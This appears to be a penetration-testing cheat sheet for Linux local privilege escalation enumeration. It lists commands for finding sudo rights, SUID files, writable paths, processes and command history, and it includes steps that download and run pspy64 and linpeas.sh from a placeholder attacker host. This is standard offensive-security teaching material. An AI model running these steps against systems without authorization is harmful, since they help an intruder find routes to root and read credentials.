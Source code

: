 # Local Privilege Escalation LPE Enumeration Methodology

### 1) Linux Local Privilege Escalation LPE Enumeration

On a linux machine, we can do some checks to see if we can exploit them to do lateral movement, or even root the machine.

#### Checks:

1) Sudo privileges (Authenticated)

       sudo -l

2) SUID bit files

        find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

3) Open ports/services/applications within the machine

        ss -tulpn
        netstat -ano

4) Check for running processes either as root, or as another target user for lateral movement

        wget http://ATTACK_IP:PORT/pspy64

        chmod +x ./pspy64

        ./pspy64

5) Check detailed contents of a directory like hidden files, file size, ownership

        ls -lah

6) Automated Enumeration

        wget http://ATTACK_IP:PORT/linpeas.sh

        chmod +x ./linpeas.sh

        ./linpeas.sh

7) Interesting groups of the current user

        id

8) Environment Variables

        env

9) Command history

        history

        cat /home/user/.bash_history

11) Writeable files and directories of the current user

        find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

12) Chech the current user's PATH variable contents

        echo $PATH

13) World-writeable files and directories

        find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
        find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
